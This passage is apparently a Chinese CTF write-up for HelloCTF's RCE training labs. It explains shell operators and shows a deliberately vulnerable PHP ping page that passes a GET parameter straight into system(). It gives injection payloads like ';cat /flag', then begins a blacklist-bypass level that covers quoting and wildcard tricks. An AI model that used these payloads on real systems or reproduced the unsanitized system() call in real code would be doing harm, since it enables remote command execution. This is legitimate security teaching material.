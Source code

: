 ```php
SHELL 运算符 可以用于控制命令的执行流程，使得你能够根据条件执行不同的命令。

&&（逻辑与运算符）: 只有当第一个命令 cmd_1 执行成功（返回值为 0）时，才会执行第二个命令 cmd_2。例:  mkdir test && cd test

||（逻辑或运算符）: 只有当第一个命令 cmd_1 执行失败（返回值不为 0）时，才会执行第二个命令 cmd_2。例:  cd nonexistent_directory || echo "Directory not found"

&（后台运行符）: 将命令 cmd_1 放到后台执行，Shell 立即执行 cmd_2，两个命令并行执行。例:  sleep 10 & echo "This will run immediately."

;（命令分隔符）: 无论前一个命令 cmd_1 是否成功，都会执行下一个命令 cmd_2。例:  echo "Hello" ; echo "World"


try GET:
    ?ip=8.8.8.8
flag is /flag
*/

function hello_server($ip){
    system("ping -c 1 $ip");
}

isset($_GET['ip']) ? hello_server($_GET['ip']) : null;

highlight_file(__FILE__);


?>

```

分割一下 ping 命令就行

```php
/?ip=;ls /
/?ip=;cat /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737288604656-4c688163-5288-4c86-bdd0-996df1be83f8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737288644341-58a7426f-ab03-4329-a861-b22fc922be00.png)

## Level 5  黑名单式过滤  
```php
 <?php 
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 命令执行 - 终端特性_空字符忽略和通配符 --- 

在Shell中，单/双引号 "/' 可以用来定义一个空字符串或保护包含空格或特殊字符的字符串。
例如：echo "$"a 会输出 $a，而 echo $a 会输出变量a的值，当只有""则表示空字符串，Shell会忽略它。

*（星号）: 匹配零个或多个字符。例子: *.txt。
?（问号）: 匹配单个字符。例子: file?.txt。
[]（方括号）: 匹配方括号内的任意一个字符。例子: file[1-3].txt。
[^]（取反方括号）: 匹配不在方括号内的字符。例子: file[^a-c].txt。
{}（大括号）: 匹配大括号内的任意一个字符串。例子: file{1,2,3}.txt。
```